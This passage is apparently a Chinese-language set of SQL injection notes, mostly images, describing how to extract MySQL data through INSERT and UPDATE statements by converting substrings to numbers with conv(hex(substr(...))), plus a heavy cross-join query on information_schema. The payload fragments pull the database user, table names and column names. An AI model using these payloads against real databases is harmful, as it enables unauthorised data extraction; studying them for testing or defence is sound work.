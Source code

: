 ```
SELECT count(*) FROM information_schema.columns A,information_schema.columns B,information_schema.columns C;
```

![](https://ae01.alicdn.com/kf/H9f13bf0489a44c8082990a77ec0c2f860.jpg)

## Insert、update注入新思路

![](https://ae01.alicdn.com/kf/H114a5a2796b24ecc8b1c1c4dccf67ba9d.jpg)

![](https://ae01.alicdn.com/kf/H9fc23bdd0b5844c5a41c58e5fed8bd04z.jpg)

![](https://ae01.alicdn.com/kf/H4ec8fc2b48de4ee7bf8cf45799d7094cU.jpg)

![](https://ae01.alicdn.com/kf/H256914b5da104dd389f6ce29272ea01cc.jpg)
- 字符串《==》数字
```
conv() 进制转换
```

![](https://ae01.alicdn.com/kf/H6b4a6c0c17d74944a2bf8a056538ec50d.jpg)

- 获取的数据超过8个字节

```
select conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10);
```
![](https://ae01.alicdn.com/kf/H044f3ecd33044adaaa3f383b63b5a8c6u.jpg)

- 获取表名

```
select conv(hex(substr((select table_name from information_schema.tables where table_schema=schema() limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

![](https://ae01.alicdn.com/kf/Hf9f39a2e0b7747ecb685de22873634943.jpg)

- 获取列名

```
select conv(hex(substr((select column_name from information_schema.columns where table_name=’Name of your table’ limit 0,1),1 + (n-1) * 8, 8*n)), 16, 10);
```

- 利用update语句

```
update users set username = 'test' | conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)), 16, 10) where id =16
```

- 利用 INSERT语句

```
insert into users values (17,'james', 'bond');
```
